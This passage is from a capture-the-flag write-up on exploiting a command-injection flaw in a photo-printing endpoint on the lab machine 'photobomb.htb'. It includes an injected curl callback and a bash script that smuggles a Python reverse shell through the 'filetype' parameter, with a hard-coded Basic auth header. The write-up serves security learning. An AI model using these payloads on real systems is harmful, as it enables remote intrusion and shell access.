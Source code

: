 - Insert the following payload into the `filetype` parameter:
  Payload: `jpg;curl http://10.10.14.2:8088`

```bash
# Teminal 2
goku@exploitation:~$ curl -X POST -H "Authorization: Basic cEgwdDA6YjBNYiE=" -d "photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;curl http://10.10.14.2:8088&dimensions=600x400" http://photobomb.htb/printer

Failed to generate a copy of voicu-apostol-MWER49YaD-M-unsplash.jpg

goku@exploitation:~$

```

- An HTTP request received from the `photobomb` remote machine:

```bash
# Terminal 1
goku@exploitation:~$ python -m http.server 8088
Serving HTTP on 0.0.0.0 port 8088 (http://0.0.0.0:8088/) ...
10.10.11.182 - - [15/Dec/2022 07:30:35] "GET / HTTP/1.1" 200 -

```

## Getting foothold (User flag): Exploiting the command injection vulnerability

- A simple bash script to exploit the vuln automatically:

```bash
# exploit.sh
#!/bin/bash

# Get the Machine IP
IP=$(ip a s tun0 | grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}')
PORT=4444

# Python reverse shell
echo "[+] Bulding the Payload"
CMD="python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$IP\",$PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'"

# Start netcat listner on the background
echo "[+] Listning at $IP:$PORT"
# nohup nc -dlvp "$PORT" &

# Exploit
curl -X POST -H "Authorization: Basic cEgwdDA6YjBNYiE=" -d "photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;$CMD&dimensions=600x400" "http://photobomb.htb/printer" &>/dev/null && echo "[+] Pwned!" && echo "[+] Here is your shell" # && fg %+

```
